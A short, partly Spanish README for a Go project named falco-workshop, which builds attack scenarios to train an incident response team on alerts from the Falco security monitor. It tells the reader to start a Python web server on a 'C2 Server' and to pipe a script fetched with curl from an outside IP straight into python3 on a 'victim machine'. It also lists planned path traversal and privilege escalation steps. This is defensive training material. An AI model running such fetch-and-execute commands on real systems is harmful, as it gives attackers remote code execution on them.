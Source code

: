 # README


Remember: 

    Adjust de go versions.

    go version

    Validate the project versions

    go list -m -versions github.com/diego-all/falco-workshop


In C2 Server execute:


    cd /root

    python3 -m http.server 80



In victim machine execute:


    curl -sL http://34.27.180.215/sitio/vuelta.txt | python3


    go run github.com/diego-all/falco-workshop@latest init --vector A
    go run main.go init --vector A

    go run github.com/diego-all/falco-workshop@v0.1.1 init --vector A

    go run github.com/diego-all/falco-workshop@latest init --interactive
    go run main.go init --interactive
    


Esta diseñada para Ubuntu (de la imagen) 

Propone 2 escenarios de incidentes con con fin de concientizar y capacitar al equipo de IRT de Random para realizar
investigaciones relacionadas a eventos de seguridad generados por Falco.


Montar la API en esta version de ubuntu.


La de path traversal no tiene sentido en este vector no hay una app nueva y no hay un RCE.
Inventar montar el path delpath traversal con la API.

Anexarle algo de privesc.